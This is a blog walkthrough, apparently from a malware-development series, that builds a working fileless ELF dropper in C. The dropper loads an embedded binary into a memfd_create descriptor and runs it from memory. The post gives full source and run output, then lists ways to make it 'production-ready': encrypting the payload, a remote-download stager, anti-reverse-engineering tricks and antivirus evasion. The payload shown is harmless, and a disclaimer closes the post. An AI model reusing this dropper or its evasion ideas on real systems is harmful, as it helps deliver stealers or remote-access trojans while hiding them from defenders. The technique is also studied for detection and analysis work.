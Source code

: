 ```yaml
---
layout: post
category : walkthrough
tags : [hacking, programming, malwaredev]
---
```


# Introduction

A dropper is a program that is used to execute malicious code on a
computer. It is a kind of installer, that hides the malware from the
antivirus system, and the analyst.

In a [previous blog post]({% post_url 2023-02-02-a-dropper-in-golang
%}), i described a dropper that I designed in Golang. It had (at
least) two drawbacks:

- The malware that is delivered needs to be in the form of position independent
  code, with all data inlined, so-called shellcode. While this works
  for a proof of concept, it cannot be used to drop ELF files. Thus,
  the malicious code, such as a stealer or remote access trojan needs
  to be converted to shellcode before it can be dropped with the
  previous dropper. That is cumbersome, especially for large programs.
- The malicious code in the previous dropper was file-backed. In
  contrast, a fileless dropper executes the payload in memory only and
  thus is harder to detect.

This blog post takes care of both these drawbacks by describing a fileless ELF dropper.
As the terminology in this area is not standardized, we could also call it a userspace
exec implementation in memory.

# The Payload
First of all we need a payload that we can drop.
While a real payload of a dropper has some malicious purpose such as
stealing credentials, as we are concentrating on the dropper we will
use a small harmless payload.

{% highlight C %}
// compile with gcc payload.c -o payload
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    char buffer[1024];
    ssize_t len = readlink("/proc/self/exe", buffer, sizeof(buffer) - 1);

    if (len != -1) {
        buffer[len] = '\0';
        printf("My executable's file path is: %s\n", buffer);
    } else {
        perror("Error reading executable path");
    }
    return 0;
}
{% endhighlight %}

This payload returns the executable's own file. While
it may be possible to write this as shellcode in assembly, it
is clear that larger programs become more cumbersome. That is the
motivation for dropping ELF files directly.

```
$ gcc -o payload payload.c 
$ ./payload 
My executable's file path is: /home/user/<redacted>/payload
```

We can get the content of the payload binary as a static C array
using `xxd` as follows.

```
$ xxd -i payload
unsigned char payload[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  ....
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};
unsigned int payload_len = 23592;
```

# The Dropper
Now, on to designing the dropper.
The idea is to create an anonymous file descriptor using
`memfd_create()`. We write the ELF binary to this file
descriptor. Consequently the ELF is not backed by memory, but resides
only in RAM.
The binary is then available in `procfs` at `/proc/self/fd/%i`, where
`%i` is the return value of `memfd_create()`.
Consequently, we can execute it using `execl()`.

And that is basically everything there is to it.

{% highlight C %}
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>


unsigned char payload[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  ....
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};
unsigned int payload_len = 23592;

int main() {
    // Create an anonymous file descriptor
    int memfd = memfd_create("", MFD_CLOEXEC);
    if (memfd == -1) {
        perror("memfd_create");
        exit(EXIT_FAILURE);
    }

    // Write the payload to the memfd file descriptor
    write(memfd, payload, payload_len);

    // Create the string describing the file descriptor
    char * p;
    asprintf(&p, "/proc/self/fd/%i", memfd);

    // Execute the ELF binary at the anonymous file descriptor
    if (execl(p, NULL) == -1) {
        perror("execl");
        exit(EXIT_FAILURE);
    }

    // This code will not be reached if fexecve is successful
    exit(EXIT_SUCCESS);
}
{% endhighlight %}

Running the code looks as follows.

```
$ gcc -o dropper dropper.c 
$ ./dropper 
My executable's file path is: /memfd: (deleted)
```

# Further Ideas
As the code shown covers only the dropping, i will add some points
that should be included to make the code more production-ready.

- *Obfuscation:* In the version shown above, the ELF file sits naked in
  the binary file of the dropper as a static array. This can be improved by using
  obfuscation based on base64 encoding or an encryption algorithm such
  as AES or RC4. Then, the ELF file is included in the dropper in
  obfuscated form, and before writing it to the anonymous file handle,
  it is deobfuscated.
- *Download ELF:* Another idea is to not have the ELF file in the
  binary at all, but use a stager instead. The stager connects to a
  remote server, receives the (obfuscated) binary, and executes
  it. This way, the binary is not included in the original dropper.
- *Anti-RE:* Currently, the code is easy to analyze using a
  debugger. Some anti-reverse engineering tricks could be added to spice
  things up.
- *Stealthiness:* The shown trick is nearly only used by malware, and
  thus antivirus software will probably flag it. I am not yet sure how
  to improve that.

# Epilogue
With great power comes great responsibility.
Do not use this for malicious purposes and don't be a jerk.

# Some References
- https://grugq.github.io/docs/ul_exec.txt
- https://stackoverflow.com/questions/63208333/using-memfd-create-and-fexecve-to-run-elf-from-memory
- https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html
- https://0x00sec.org/t/super-stealthy-droppers/3715
- https://www.guitmz.com/running-elf-from-memory/
